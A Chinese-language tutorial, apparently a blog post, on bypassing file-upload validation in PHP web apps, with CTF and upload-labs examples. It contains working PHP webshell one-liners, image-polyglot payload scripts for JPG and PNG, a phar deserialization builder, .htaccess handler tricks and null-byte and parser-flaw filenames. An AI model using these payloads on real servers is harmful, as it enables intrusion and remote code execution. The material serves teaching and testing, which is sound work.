

本文总结了常见的文件上传漏洞的校验和绕过方法
先放几张偷的图，但是很实用。。。
一般HTTP-Header有以下组成：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 POST /upload.php HTTP/1.1 Host: localhost Content-Length: 274 Cache-Control: max-age=0 Origin: http://localhost Upgrade-Insecure-Requests: 1 Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuKS18BporicXJfTx User-Agent: Mozilla/5.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8 Accept-Encoding: gzip, deflate, br Accept-Language: zh-CN,zh;q=0.8,de;q=0.6,en;q=0.4,fr;q=0.2 Connection: close ------WebKitFormBoundaryuKS18BporicXJfTx Content-Disposition: form-data; name="file_x"; filename="xx.php"
请求Header中Content-Type存在以下特征：
multipart/form-data（表示该请求是一个文件上传请求）
存在boundary字符串（作用为分隔符，以区分POST数据）
POST的内容存在以下特征：
Content-Disposition
name
filename
POST中的boundary的值就是Content-Type的值在最前面加了两个–，除了最后标识结束的boundary
1.客户端校验 校验原理
一般是在客户端用js脚本校验上传文件的后缀名。
绕过
1、浏览器关闭js
2、burp抓包改后缀
2.服务端校验 1.content-type校验 原理
模拟web服务器端的校验代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 $is_upload = false; $msg = null; if (isset($_POST['submit'])) { if (file_exists(UPLOAD_PATH)) { if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) { $temp_file = $_FILES['upload_file']['tmp_name']; $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name'] if (move_uploaded_file($temp_file, $img_path)) { $is_upload = true; } else { $msg = '上传出错！'; } } else { $msg = '文件类型不正确，请重新上传！'; } } else { $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！'; } }
代码对上传文件的文件类型进行了判断，如果不是图片类型，返回错误。
绕过
burp抓包，修改与上传点要求的文件类型的MIME即可。
一般来说，有以下MIME类型：https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Basics_of_HTTP/MIME_types
2.大写 Multipart 即将请求头中的 Content-Type 的 multipart/form-data 第一个字符 m 改成 M，即 Multipart/form-data（不影响传输）
2.文件头校验 原理
用到了getimagesize()函数，检测文件内容开始处的文件幻数
1 2 3 4 5 .JPEG;.JPE;.JPG： FF D8 FF E0 00 10 4A 46 49 46（JPGGraphic File） .png：89 50 4E 47（ PNG） .gif：47 49 46 38 39 61（GIF89a） .zip：”Zip Compressed” .doc、.xls、.xlt、.ppt、.apr：”MS Compound Document v1 or Lotus Approach APRfile”
绕过
伪造幻数，在木马内容基础上再加了一些文件信息，例：
1 GIF89a<?php eval($_POST['test']); ?>
或者是在文件开头处写下以下内容
3.文件内容校验 1.文件内容替换 原理
将文件中的敏感字符替换掉，大致代码类似于下面这样：
1 2 3 4 5 6 7 8 9 10 11 12 13 <?php $path = "./uploads"; $content = file_get_contents($_FILES['myfile']['tmp_name']); $content = str_replace('?', '!', $content); $file = $path . '/' . $_FILES['myfile']['name']; if (move_uploaded_file($_FILES['myfile']['tmp_name'], $file)) { file_put_contents($file, $content); echo 'Success!<br>'; } else { echo 'Error!<br>'; } ?>
如果我们要上传php的一句话<?php @eval($_POST['shell']);?>时，php的语言标记中的?会被替换为!，这样一句话就不能被执行了
绕过
主要还是要根据实际过滤的字符来判断，如果写死的话可能是没办法的（一般不会，因为还要兼顾图片上传）
比如过滤掉问号，我们就可以使用<script language='php'>system('ls');</script>这样的一句话。具体方法要看实际代码过滤了哪些字符。
2.文件加载检测 一个灰常经典的例子，upload-labs Pass-16，源码如下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 if (($fileext == "jpg" ) && ($filetype =="image/jpeg" )){ if (move_uploaded_file ($tmpname ,$target_path )){ $im = imagecreatefromjpeg ($target_path ); if ($im == false ){ $msg = "该文件不是jpg格式的图片！" ; @unlink ($target_path ); }else { srand (time ()); $newfilename = strval (rand ()).".jpg" ; $img_path = UPLOAD_PATH.'/' .$newfilename ; imagejpeg ($im ,$img_path ); @unlink ($target_path ); $is_upload = true ; } } else { $msg = "上传出错！" ; }
使用imagecreatefromjpeg（） 函数调用php中的GD 库转换了图像。
使用二次渲染之后，图片中的恶意代码会被去除。
绕过
上传GIF 关于绕过gif的二次渲染,我们只需要找到渲染前后没有变化的位置,然后将php代码写进去,就可以成功上传带有php代码的图片了.
例如以下部分没有变化
我们就将代码写到该处
上传PNG PNG定义了两种类型的数据块，一种是称为关键数据块(critical chunk)，这是标准的数据块，另一种叫做辅助数据块(ancillary chunks)，这是可选的数据块。关键数据块定义了3个标准数据块(IHDR,PLTE,IDAT, IEND)，每个PNG文件都必须包含它们.
数据块结构
IHDR
数据块IHDR(header chunk)：它包含有PNG文件中存储的图像数据的基本信息，并要作为第一个数据块出现在PNG数据流中，而且一个PNG数据流中只能有一个文件头数据块。
文件头数据块由13字节组成，它的格式如下图所示。
PLTE
调色板PLTE数据块是辅助数据块,对于索引图像，调色板信息是必须的，调色板的颜色索引从0开始编号，然后是1、2……，调色板的颜色数不能超过色深中规定的颜色数（如图像色深为4的时候，调色板中的颜色数不可以超过2^4=16），否则，这将导致PNG图像不合法。
IDAT
图像数据块IDAT(image data chunk)：它存储实际的数据，在数据流中可包含多个连续顺序的图像数据块。
IDAT存放着图像真正的数据信息，因此，如果能够了解IDAT的结构，我们就可以很方便的生成PNG图像
IEND
图像结束数据IEND(image trailer chunk)：它用来标记PNG文件或者数据流已经结束，并且必须要放在文件的尾部。
如果我们仔细观察PNG文件，我们会发现，文件的结尾12个字符看起来总应该是这样的：
00 00 00 00 49 45 4E 44 AE 42 60 82
写入php代码
写入PLTE数据块
php底层在对PLTE数据块验证的时候,主要进行了CRC校验.所以可以再chunk data域插入php代码,然后重新计算相应的crc值并修改即可.
这种方式只针对索引彩色图像的png图片才有效,在选取png图片时可根据IHDR数据块的color type辨别.03为索引彩色图像.
在PLTE数据块写入php代码.
计算PLTE数据块的CRC
1 2 3 4 5 6 7 8 9 10 11 12 import binasciiimport repng = open (r'2.png' ,'rb' ) a = png.read() png.close() hexstr = binascii.b2a_hex(a) ''' PLTE crc ''' data = '504c5445' + re.findall('504c5445(.*?)49444154' ,hexstr)[0 ] crc = binascii.crc32(data[:-16 ].decode('hex' )) & 0xffffffff print hex (crc)
运行结果526579b0
修改CRC值
写入IDAT数据块
这里有国外大牛写的脚本,直接拿来运行即可.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 <?php $p = array (0xa3 , 0x9f , 0x67 , 0xf7 , 0x0e , 0x93 , 0x1b , 0x23 , 0xbe , 0x2c , 0x8a , 0xd0 , 0x80 , 0xf9 , 0xe1 , 0xae , 0x22 , 0xf6 , 0xd9 , 0x43 , 0x5d , 0xfb , 0xae , 0xcc , 0x5a , 0x01 , 0xdc , 0x5a , 0x01 , 0xdc , 0xa3 , 0x9f , 0x67 , 0xa5 , 0xbe , 0x5f , 0x76 , 0x74 , 0x5a , 0x4c , 0xa1 , 0x3f , 0x7a , 0xbf , 0x30 , 0x6b , 0x88 , 0x2d , 0x60 , 0x65 , 0x7d , 0x52 , 0x9d , 0xad , 0x88 , 0xa1 , 0x66 , 0x44 , 0x50 , 0x33 ); $img = imagecreatetruecolor (32 , 32 );for ($y = 0 ; $y < sizeof ($p ); $y += 3 ) { $r = $p [$y ]; $g = $p [$y +1 ]; $b = $p [$y +2 ]; $color = imagecolorallocate ($img , $r , $g , $b ); imagesetpixel ($img , round ($y / 3 ), 0 , $color ); } imagepng ($img ,'./1.png' );?>
运行后得到1.png.
上传JPG 这里也采用国外大牛编写的脚本jpg_payload.php.
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 146 147 148 149 150 151 152 153 154 155 156 157 158 159 160 161 162 163 164 165 166 167 168 169 <?php /* The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled(). It is necessary that the size and quality of the initial image are the same as those of the processed image. 1) Upload an arbitrary image via secured files upload script 2) Save the processed image and launch: jpg_payload.php <jpg_name.jpg> In case of successful injection you will get a specially crafted image, which should be uploaded again. Since the most straightforward injection method is used, the following problems can occur: 1) After the second processing the injected data may become partially corrupted. 2) The jpg_payload.php script outputs "Something's wrong". If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image. Sergey Bobrov @Black2Fan. See also: https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/ */ $miniPayload = "<?=phpinfo();?>"; if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) { die('php-gd is not installed'); } if(!isset($argv[1])) { die('php jpg_payload.php <jpg_name.jpg>'); } set_error_handler("custom_error_handler"); for($pad = 0; $pad < 1024; $pad++) { $nullbytePayloadSize = $pad; $dis = new DataInputStream($argv[1]); $outStream = file_get_contents($argv[1]); $extraBytes = 0; $correctImage = TRUE; if($dis->readShort() != 0xFFD8) { die('Incorrect SOI marker'); } while((!$dis->eof()) && ($dis->readByte() == 0xFF)) { $marker = $dis->readByte(); $size = $dis->readShort() - 2; $dis->skip($size); if($marker === 0xDA) { $startPos = $dis->seek(); $outStreamTmp = substr($outStream, 0, $startPos) . $miniPayload . str_repeat("\0",$nullbytePayloadSize) . substr($outStream, $startPos); checkImage('_'.$argv[1], $outStreamTmp, TRUE); if($extraBytes !== 0) { while((!$dis->eof())) { if($dis->readByte() === 0xFF) { if($dis->readByte !== 0x00) { break; } } } $stopPos = $dis->seek() - 2; $imageStreamSize = $stopPos - $startPos; $outStream = substr($outStream, 0, $startPos) . $miniPayload . substr( str_repeat("\0",$nullbytePayloadSize). substr($outStream, $startPos, $imageStreamSize), 0, $nullbytePayloadSize+$imageStreamSize-$extraBytes) . substr($outStream, $stopPos); } elseif($correctImage) { $outStream = $outStreamTmp; } else { break; } if(checkImage('payload_'.$argv[1], $outStream)) { die('Success!'); } else { break; } } } } unlink('payload_'.$argv[1]); die('Something\'s wrong'); function checkImage($filename, $data, $unlink = FALSE) { global $correctImage; file_put_contents($filename, $data); $correctImage = TRUE; imagecreatefromjpeg($filename); if($unlink) unlink($filename); return $correctImage; } function custom_error_handler($errno, $errstr, $errfile, $errline) { global $extraBytes, $correctImage; $correctImage = FALSE; if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) { if(isset($m[1])) { $extraBytes = (int)$m[1]; } } } class DataInputStream { private $binData; private $order; private $size; public function __construct($filename, $order = false, $fromString = false) { $this->binData = ''; $this->order = $order; if(!$fromString) { if(!file_exists($filename) || !is_file($filename)) die('File not exists ['.$filename.']'); $this->binData = file_get_contents($filename); } else { $this->binData = $filename; } $this->size = strlen($this->binData); } public function seek() { return ($this->size - strlen($this->binData)); } public function skip($skip) { $this->binData = substr($this->binData, $skip); } public function readByte() { if($this->eof()) { die('End Of File'); } $byte = substr($this->binData, 0, 1); $this->binData = substr($this->binData, 1); return ord($byte); } public function readShort() { if(strlen($this->binData) < 2) { die('End Of File'); } $short = substr($this->binData, 0, 2); $this->binData = substr($this->binData, 2); if($this->order) { $short = (ord($short[1]) << 8) + ord($short[0]); } else { $short = (ord($short[0]) << 8) + ord($short[1]); } return $short; } public function eof() { return !$this->binData||(strlen($this->binData) === 0); } } ?>
使用方法
随便找一个jpg图片,下载到本地保存为1.jpg.
使用脚本处理1.jpg,命令php jpg_payload.php 1.jpg
使用16进制编辑器打开,就可以看到插入的php代码.
需要注意的是,有一些jpg图片不能被处理,所以要多尝试一些jpg图片.
4.后缀校验 原理
取文件后缀名与服务端黑白名单进行比较
绕过
os系统特性、后缀名截取不规范、php代码缺陷、过滤不完全、配合伪协议解析图形文件
1.黑名单绕过 windows下绕过
1 2 3 4 5 更换.htaccess偏门文件名和后缀名 扩展名末尾添加空格、'_'、'.'、'::$DATA'、大小写混写(linux下也可)、‘/’、‘.’、‘/.’符号绕过 '*=.'、'<=*'、'>=?'、'test.<<<' test.php:1.jpg会生成一个test.php的空文件 不可绕过考虑phar://协议利用，若过滤配合(compress://)
asp
1 2 3 4 5 6 7 8 9 10 11 12 13 14 解析漏洞: .asp;.jpg .asp.jpg .asp;jpg +111.asp;+222.jpg /111.asp/1.jpg /111.aspx/1.jpg 后缀名： asa,cer,cdx,ashx,asmx,xml,htr,asax 双文件扩展： test.asp.jpg RTLO： asp.html-内容为一句话 php.txt-内容为一句话
jsp
1 2 .jsp.jpg.jsp #用两个jsp包围中间的jpg 后缀名：jspf,jspa,jsps,jspx
php
1 2 3 4 5 6 7 8 9 10 11 12 13 14 后缀名：.php3 ,.php4,.php5,.php7 大小写：pHp 解析漏洞： 1.php.jpg 1.jpg.php 1.php jpg(jpg前面两个空格) 1.php jpg(jpg前面一个空格) /1.jpg/1.php /1.jpg%00.php /1.jpg/.php /1.jpg/php 特殊文件利用： .htaccess .user.ini
以上一些脚本语言的解析漏洞再白名单中也实用
.htaccess（白名单也可） 1 .htaccess文件(或者"分布式配置文件"）,全称是Hypertext Access(超文本入口)。提供了针对目录改变配置的方法， 即，在一个特定的文档目录中放置一个包含一个或多个指令的文件， 以作用于此目录及其所有子目录。作为用户，所能使用的命令受到限制。管理员可以通过Apache的AllowOverride指令来设置。
利用.htaccess的条件：Apache中配置AllowOverride All
.htaccess文件可以配置将特定的文件按规定的文件类型进行解析，可以用以下两种方式来配置：
1 2 3 <FilesMatch "test"> SetHandler application/x-httpd-php </FilesMatch>
这一种采用正则匹配，只要文件名为test的文件都将被作为php文件解析
1 AddType application/x-httpd-php .jpg
第二种是将.jpg文件都作为php文件解析
这样我们如果能将.htaccess上传到服务器的话，就可以再根据我们自己设定的规则来解析上传的文件，以此来绕过上传过滤
利用工具进行fuzz 工具：https://github.com/c0ny1/upload-fuzz-dic-builder
生成fuzz的字典,执行命令:python upload-fuzz-dic-builder.py -n test -a jpg -l php -m apache --os win -o upload_file.txt
把生成的字典导入burp中，同时取消payload-encoding的选中状态。执行后可以看到有些php文件上传成功。然后访问其中上传成功的文件，查看是否执行。
访问如图中的地址文件，可以看到上传成功：

2.白名单绕过 1.00解析漏洞 这个多数被利用在截断路径，利用的条件是：
1 2 PHP < 5.3.4 magic_quotes_gpc 关闭
因为0x00是字符串的结束标志符，所以php在读取到0x00时就不会再往后读取，我们可以利用这些截断字符后面不需要的内容
注意的是%00是url编码，在以POST传参时应该使用burpsuite对其进行url decode，或者修改hex值为00；而当GET传参时因为浏览器会做一遍url decode，所以直接传%00即可。例：
1 shell.php%00.jpg,shell.php0xoo.jpg
2.ascii 特殊字符包含 00 截断无效，尝试用 0x00~0xff 之内的 ascii 字符来截断。
burp 中发送数据包到 intruder 模块，将范围控制在 0~255 之间
用 intuder 模块的 payload 进行处理，先加上 % ，再进行 urldecode
3.webserver解析漏洞 IIS
1 2 3 4 5 IIS5.x-6.x: 1、目录解析(6.0):/1.asp/1.jpg 在1.asp下的任意文件，服务器都解析为asp文件 2、文件解析:1.asp;.jpg #分号后面的不被解析，也就是说1.asp;.jpg会被服务器看成是1.asp 3、文件类型:1.asa,a.cer,1.cdx IIS7.5：IIS7.5是由于php配置文件中，开启了cgi.fix_pathinf，当访问：http://test.com/a.jpg时，a.jpg会被当做php执行。
Windows下图片马制作：copy /b 正常图片.jpg + yijuhua.php yijuhua.jpg
低版本apache解析漏洞
1 2 3 Apache和php三种结合方式：CGI、Module、FastCGI，该解析漏洞只有在apache和php以Module方式结合时才存在，而且Apache还有一个特性：从右到左开始判断解析,如果后缀名为不可识别文件解析,就再往左判断 后缀不识别：1.php.php123，而左边的php可识别，就会被解析为php文件 配置错误：1.php.jpg
CVE-2017-15715
一个apache的解析漏洞就是CVE-2017-15715，这个漏洞利用方式就是上传一个文件名最后带有换行符(只能是\x0A，如上传a.php，然后在burp中修改文件名为a.php\x0A)，以此来绕过一些黑名单过滤
具体的漏洞分析可以看p牛：https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html
nginx解析漏洞
1 2 3 4 5 6 7 8 9 Nginx默认是以CGI的方式支持PHP解析的，和IIS7.5一样开启了cgi.fix_pathinf 1.jpg/1.php 1.jpg%00.php 1.jpg/%20\1.php 上传一个名字为test.jpg，以下内容的文件：‘);?> 然后访问test.jpg/.php,在这个目录下就会生成一句话木马shell.php Nginx <8.03 默认Fast-CGI开启状况下，上传一个木马文件为xxx.jpg，然后访问xxx.jpg/x.php，这个文件将以php进行解析 Nginx 0.5.,0.6, 0.7 <= 0.7.65, 0.8 <= 0.8.37 Ngnix在遇到%00空字节时与后端FastCGI处理不一致，导致可以在图片中嵌入PHP代码然后通过访问xxx.jpg%00.php来执行其中的代码
3.文件包含 利用条件：无法直接上传 shell，只能上传图片，存在文件包含
1.phar phar 是 php 中的一种归档压缩文件，类似 zip 。可以使用 phar:// 协议来访问压缩后的文件。
PHP5.3之后支持了类似Java的jar包，名为phar。用来将多个PHP文件打包为一个文件。
文件结构
1.a stub：可以理解为一个标志，格式为xxx<?php xxx; __HALT_COMPILER();?>，前面内容不限，但必须以__HALT_COMPILER();?>来结尾，否则phar扩展将无法识别这个文件为phar文件。
2.a manifest describing the contents：phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化 的形式存储用户自定义的meta-data，这是上述攻击手法最核心的地方。
3.the file contents：被压缩文件的内容。
4.[optional] a signature for verifying Phar integrity (phar file format only)：签名，放在文件末尾
1.正常使用 将 php 文件压缩成 zip 文件，zip 文件改后缀为相应的上传点要求文件后缀
例如上传点要求png，将下面的代码放在 1.php 中，压缩成 1.zip 并改名 1.png后上传
1 2 3 4 5 6 7 <?= eval ($_POST ['1' ]);?> <?php eval ($_POST ['1' ]);?> <script language='php' > eval ($_POST ['1' ]); </script>
上传文件之后在右键 -> 源代码中可以看到上传的地址，复制出来并用 phar:// 协议进行访问
访问：path/x.php?str=phar://upload_path/1.png
2.phar反序列化 原因
phar反序列化漏洞的漏洞点在于使用phar://协议读取文件的时候，文件内容会被解析成phar对象，然后phar对象内的Metadata信息会被反序列化；当Metadata内容可由用户控制，则会存在反序列化漏洞风险。
生成一个简单的phar
php内置了一个Phar类来处理相关操作，但是要将php.ini中的phar.readonly选项设置为Off，否则无法生成phar文件。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 <?php class TestObject function __destruct ( { eval ($this -> data); } } @unlink ("test.phar" ); $phar = new Phar ("test.phar" ); $phar ->startBuffering (); $phar ->setStub ("<?php __HALT_COMPILER(); ?>" ); $o = new TestObject (); $o -> data = 'phpinfo();' ; $phar ->setMetadata ($o ); $phar ->addFromString ("test.txt" , "test" ); $phar ->stopBuffering (); ?>
利用条件
1 2 3 1.phar文件要能够上传到服务器端。 2.要有可用的魔术方法作为“跳板”。 3.文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤。
简单的例子
假定上传点只能上传GIF，则对生成一个简单的phar 中做一个简单的修改
1 $phar -> setStub ('GIF89a<?php __HALT_COMPILER();?>' );
后台解析文件
1 2 3 4 5 6 7 8 $filename =$_GET ['filename' ];class AnyClass function __destruct ( { eval ($this ->data); } } include ($filename );
然后执行我们的马生成test.phar文件，改后缀为gif，上传。
访问：path/x.php?str=phar://upload_path/test.gif即可
2.php自包含特性 利用条件
1 2 1. 可控的文件包含点。 2. 目录遍历漏洞。（查看临时文件名）
php文件上传机制
首先先了解一下php的全局数组$_FILES。
官方的解释：
通过 HTTP POST 方式上传到当前脚本的项目的数组。通过使用 PHP 的全局数组 $_FILES，你可以从客户计算机向远程服务器上传文件。
$_FILES 数组提供了多个内容在文件上传时使用，比较重要的有以下几个：
1 2 3 4 $_FILES['myFile']['name'] 客户端文件的原名称。 $_FILES['myFile']['type'] 文件的 MIME 类型，需要浏览器提供该信息的支持，例如"image/gif"。 $_FILES['myFile']['size'] 已上传文件的大小，单位为字节。 $_FILES['myFile']['tmp_name'] 文件被上传后在服务端储存的临时文件名，一般是系统默认。可以在php.ini的upload_tmp_dir 指定，默认是/tmp目录。
这里的重点就是$_FILES[‘myFile’] [‘tmp_name’]这个变量
上传过程中还利用到了一个重要的函数move_uploaded_file()，该方法是将上传的文件移动到新位置，若不加上这一行代码，临时文件在上传周期后就被删除而不会被存储。
1 move_uploaded_file (file,newloc)
本函数检查并确保由 file 指定的文件是合法的上传文件（即通过 PHP 的 HTTP POST 上传机制所上传的）。如果文件合法，则将其移动为由 newloc 指定的文件。
利用点
在同一目录下创建两个文件，file_upload.html和upload.php
file_upload.html
1 2 3 4 5 6 7 8 9 10 <html > <body > <form action ="upload.php" method ="post" enctype ="multipart/formdata" > <lable for ="file" > Filename:</lable > <input type ="file" name ="upload_file" id ="file" /> <br /> <input type ="submit" name ="subit" value ="submit" > </form > </body > </html >
upload.php
1 2 3 4 5 6 7 8 <?php echo "上传前的文件名: " .$_FILES ['upload_file' ]['name' ].'</>' ; echo "上传的临时文件名 : " .$_FILES ['upload_file' ]['tmp_name' ].'</br>' ; echo "文件类型: " .$_FILES ['upload_file' ]['type' ].'</br>' ; echo "文件大小: " .($_FILES ['upload_file' ]['size' ]/1024 ).' KB</br>' ; echo move_uploaded_file ($_FILES ['upload_file' ]['tmp_name' ],$_FILES ['upload_file' ]['name' ]); ?>
上传以后可以看到，tmp_name的命名规则是php[0-9A-Za-z]{3,4}，而且在上传过程中是被临时存储在/tmp目录下（wamp的环境）下。
但是上传完成以后文件会自动被删除，所以在/tmp下找不到这个文件
那么我们要如何做到让阻止他将临时文件删除呢？这里就用到了自包含的特性，让存在php文件包含点的文件包含自己，让他产生一个相当于死循环的状态，在包含的过程中我们进行post文件上传操作。
1 self_include.php?c=self_include.php
这样就会导致内存溢出，无法正常结束一个php上传周期，这时它会清空自己的内存堆栈，以便从错误中恢复过来，这时对临时文件的删除操作就无法完成，当跳出这个周期后，这个临时文件就以后缀名为tmp的形式保存在/tmp目录下。
这时候我们就利用存在包含点的php文件包含这个临时文件就行了。
栗子
测试环境：apache 2.4.9、php版本5.5.12
1.创建两个文件，一个为存在包含点的self_include.php，一个构造的文件上传点
self_include.php
1 2 3 <?php include ($_GET ['c' ]); ?>
self_include.html
1 2 3 4 5 6 7 8 9 10 <html > <meta charset ="utf-8" > <body > <form name ="upload" method ="post" enctype ="multipart/form-data" action ="./self_include.php?c=self_include.php" > File: <input type ="file" name ="file" > <input type ="submit" name ="submit" > </form > </body > </html >
2.我们让他自包含和文件上传同时进行，这里上传一个phpinfo文件。
当我们点击提交以后，发现他报错了
Maximum function nesting level of ‘100’ reached, aborting!
这是因为在我本地装了xdebug插件，它默认只能trace 100条的信息，所以这里在php.ini的xdebug配置下加上一条：
1 xdebug.max_nesting_level=600
这里测试过大约包含到150次左右程序就会崩溃，就会在tmp目录下生成我们需要的临时文件。
3.重启服务器，此时重新包含一次，提交
可以看到这里生成了两个临时文件，说明这里经过了两个上传周期，之后php守护进程无法处理这种情况就会抛出一个无法访问异常。
4.之后就可以直接利用包含点，愉快的包含我们上传的文件了
而在实战中不一定能知道文件存储路径，所以就需要目录遍历漏洞来找到临时文件的文件名
亦或者是知道路径，但不知道文件名，可以使用burp爆破出文件名。
在Windows下，由于FindFirstFile的特性，在不确定文件后面字符的情况下，可以使用<<结尾来匹配到这个文件，类似于*
1 http://localhost:9000/upload/self_include.php?c=../tmp/php<<
举一反三之包含日志
访问一个不存在的文件时，会在服务器下的/log/access.log进行记录，我们可以通过url写入一个一句话来包含日志文件，从而getshell。
1.首先访问http://localhost:9000/ ，记得这里需要使用bp来发包。
可以看到access.log文件记录下了我们访问的url。
进行文件包含，成功包含了phpinfo文件。
1 http://localhost:9000/upload/self_include.php?c=../logs/access.log
ctf题目
题目链接：https://www.ichunqiu.com/battalion?t=1&r=56951
writeup链接：https://blog.csdn.net/qq_30123355/article/details/58165038
3.反序列化上传 这个也是来源于一道 ctf（jarvisoj phpinfo），题目地址
http://web.jarvisoj.com:32784/
附上详细的解答：
https://blog.csdn.net/wy_97/article/details/78430690
4.end函数缺陷 原理
end 函数原本的作用就是返回数组的最后一个元素，reset函数返回数组的第一个值。但是呢
end 函数取到的是给数组的最后一次赋值的那个值，reset 函数取的是第一个给数组赋值的值
栗子
一道网鼎杯第二场的 wafUpload
先看一下 wafUpload 这道题：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 <?php #$sandbox = '/var/www/html/upload/' . md5("phpIsBest" . $_SERVER['REMOTE_ADDR']); $sandbox = ''; #@mkdir($sandbox); #@chdir($sandbox); if (!empty($_FILES['file'])) { #mime check if (!in_array($_FILES['file']['type'], ['image/jpeg', 'image/png', 'image/gif'])) { die('This type is not allowed!'); }else{ echo "pass 1n"; } #check filename $file = empty($_POST['filename']) ? $_FILES['file']['name'] : $_POST['filename']; if (!is_array($file)) { $file = explode('.', strtolower($file)); } $ext = end($file); if (!in_array($ext, ['jpg', 'png', 'gif'])) { die('This file is not allowed!'); }else{ echo "pass 2n"; } $filename = reset($file) . '.' . $file[count($file) - 1]; if (move_uploaded_file($_FILES['file']['tmp_name'], $sandbox . '/' . $filename)) { echo 'Success!'; echo 'filepath:' . $sandbox . '/' . $filename; } else { echo 'Failed!'; } } show_source(__file__); ?> <!DOCTYPE html > <html lang ="en" > <head > <meta charset ="UTF-8" > <title > Upload Your Shell</title > </head > <body > <form action ="" method ="post" enctype ="multipart/form-data" > <label for ="file" > Filename:</label > <input type ="text" name ="filename" > <br > <input type ="file" name ="file" id ="file" /> <input type ="submit" name ="submit" value ="Submit" /> </form > </body > </html >
审计源码可以知道，代码中用 end 函数取到上传文件的后缀并判断，用 reset 函数返回的值作为文件名
根据题目，需要绕过两层判断。
1.第一层，直接抓包修改 MIME 为 image/png 就行了。
2.第二层，构造 filename 字段为数组
仔细看 html 代码中提供了一个 filename 字段，在下面这句代码的判断中，会先查看是否有直接 post 提交的 filename 字段，如果有的话就使用这个字段的值（这个就有点类似提示的作用）
1 $file = empty($_POST['filename']) ? $_FILES['file']['name'] : $_POST['filename'];
在本地复现一下，抓包之后看看：
抓包重放之后，如果这里 filename 字段我们填上 shell.php ，根据上面的那句代码的判断
如果没有在 filename 字段中填入 shell.php 的话，那么
若直接是这样的话，在下面的几句判断中就无法通过
1 if (!in_array($ext, ['jpg', 'png', 'gif']))
所以这里想要绕过他的判断直接上传 php 文件的话，只能构造 filename 为数组，通过 end 函数的缺陷来绕过下面的的条件判断。
这里的 end 函数取到了第二个给数组赋值的值，也就是 filename[0] ，reset 函数的值为 filename[1]。这边构造
1 2 filename[1] = php filename[0] = png
在后面拼接 $filename 时候，再一次拼接到后缀名，即
1 $filename = reset($file) . '.' . $file[count($file) - 1];
这里的
一定是取到 filename[1]，所以上面给 filename[1] 赋值为 php 的意义就在这里。
最后拼接出了 php.php，就达到了上传 shell 的目的.
5.服务端目录路径校验 原理
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 $is_upload = false; $msg = null; if(isset($_POST['submit'])){ $ext_arr = array('jpg','png','gif'); $file_ext = substr($_FILES['upload_file']['name'],strrpos($_FILES['upload_file']['name'],".")+1); if(in_array($file_ext,$ext_arr)){ $temp_file = $_FILES['upload_file']['tmp_name']; $img_path = $_GET['save_path']."/".rand(10, 99).date("YmdHis").".".$file_ext; if(move_uploaded_file($temp_file,$img_path)){ $is_upload = true; } else { $msg = '上传出错！'; } } else{ $msg = "只允许上传.jpg|.png|.gif类型文件！"; } }
绕过
存在path参数可控，配合web服务器解析漏洞 上传webshell
00截断：
GET:/upload/1.php%001.jpgPOST:在文件名后burpsuite添加二进制00
适用场合
1 2 3 4 include(require) file_get_contents file_exists 所有url中参数可以用%00控制
6.条件竞争 由于服务器端在处理不同用户的请求时是并发进行的，因此，如果并发处理不当或相关操作逻辑顺序设计的不合理时，将会导致此类问题的发生。
服务端校验代码
